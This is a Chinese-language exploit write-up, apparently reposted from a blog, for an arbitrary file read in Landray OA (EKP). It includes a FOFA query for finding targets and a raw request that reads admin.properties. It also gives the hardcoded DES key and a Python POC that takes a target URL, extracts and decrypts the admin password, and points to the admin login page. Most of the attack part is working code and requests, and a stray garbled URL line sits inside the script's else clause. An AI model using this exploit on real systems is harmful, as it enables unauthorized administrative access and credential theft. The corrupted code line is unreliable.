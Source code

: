 
# 

[↓↓↓](https://www.cnblogs.com/chen-w/p/14884175.html)  
  
蓝凌OA后台密码读解密+POC  
  
[↑↑↑](https://www.cnblogs.com/chen-w/p/14884175.html)

### 漏洞描述

```shell
蓝凌OA(EKP)存在任意文件读取漏洞。可利用漏洞获取敏感信息，读取配置文件得到密码后访问后台
http://x.x.x.x/admin.do 
```

### 漏洞影响版本

```shell
蓝凌OA
```

### FOFA

```shell
app="Landray-OA系统"
```

### 漏洞复现过程

```shell
利用custom.jsp任意文件读取漏洞来读取配置文件
```

Payload如下：

```shell
请求：http://x.x.x.x/sys/ui/extend/varkind/custom.jsp
读取配置文件：/WEB-INF/KmssConfig/admin.properties，此处需要写为如下格式：
var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

在BurpSuite上的数据包如下：

```shell
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![](assets/1702521282-d148f4292157d3b9279d12b118634403.png)

接着可以将得到的密钥：JMK83aAgUCrm2fHdvJWIEQ== 拿去DES在线解密网站进行解密

```shell
默认密钥：kmssAdminKey
```

在线解密网站：

```shell
http://tool.chacuo.net/cryptdes
```

![](assets/1702521282-bce020e0338c8127c7949f3900365a44.png)

接着拿着解密后的密钥去后台进行登录：

```shell
后台：http://x.x.x.x/admin.do
```

![](assets/1702521282-19038eedb1f2673e4f4295ff4f03ee28.png)

### POC

```python
# -*- coding: utf-8 -*-
# @Author: Adura
# @Date:   2021-06-09 10:54:47
# @Last Modified by:   chenw
# @Last Modified time: 2021-06-09 11:03:01
import requests
import sys
import re
import base64
from pyDes import des, ECB, PAD_PKCS5
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def title():
    print('+-------------------------------------------------')
    print('+  \033[31mPOC_by: Chenw                   \033[0m')
    print('+  \033[31m漏洞名称: 蓝凌OA任意文件读取         \033[0m')
    print('+  \033[36m使用格式:  python3 Poc.py         \033[0m')
    print('+  \033[36m请输入URL: >>> http://ip:端口     \033[0m')
    print('+-------------------------------------------------')


def POC(url): 
    url1 =url
    url2 =url1+'/sys/ui/extend/varkind/custom.jsp'
    headers={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded"
            }
    data='var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'

    #data='var={"body":{"file":"file:///etc/passwd"}}'
    try:
        r = requests.post(url=url2,headers=headers,data=data,verify=False,timeout=10)
        if r.status_code == 200 and 'password' in r.text:
            print(url+'存在蓝凌OA SSRF漏洞')
            print('登录地址：'+url+'/admin.do')
            data = r.text.strip()
            data =str(data)
            data1 = data.split()
            data2 = ''.join(data1)
            password = re.findall(r"password=(.*?)\\rkmss",data2,re.I | re.M)
            password1 = str(password)
            KEY = 'kmssAdmi'
            try:
                secret_key = KEY
                iv = secret_key
                k = des(secret_key, ECB, iv, pad=None, padmode=PAD_PKCS5)
                decrystr = k.decrypt(base64.b64decode(password1))
                decrystr2 = str(decrystr, 'utf-8').strip(':')
                print('&*****&'+'后台密码为:' + decrystr2)
            except Exception as e:
                print('解密失败')

        else:http://8.129.43.243:8081/
            print(url+'\033[31m[x] 不存在漏洞 \033[0m')

    except Exception as e:
        print(url+'异常退出')	

if __name__ == '__main__':
	title()
	url = str(input("\033[35m请输入攻击目标的Url \nUrl >>> \033[0m"))
	POC(url)
```

使用Poc解密如下：

![](assets/1702521282-b78b461108f467e1050165b660a89234.png)

### 免责声明

```shell
严禁读者利用以上介绍知识点对网站进行非法操作 , 本文仅用于技术交流和学习 , 如果您利用文章中介绍的知识对他人造成损失 , 后果由您自行承担 , 如果您不能同意该约定 , 请您务必不要阅读该文章 , 感谢您的配合 !
```

应该没人会转载。。。
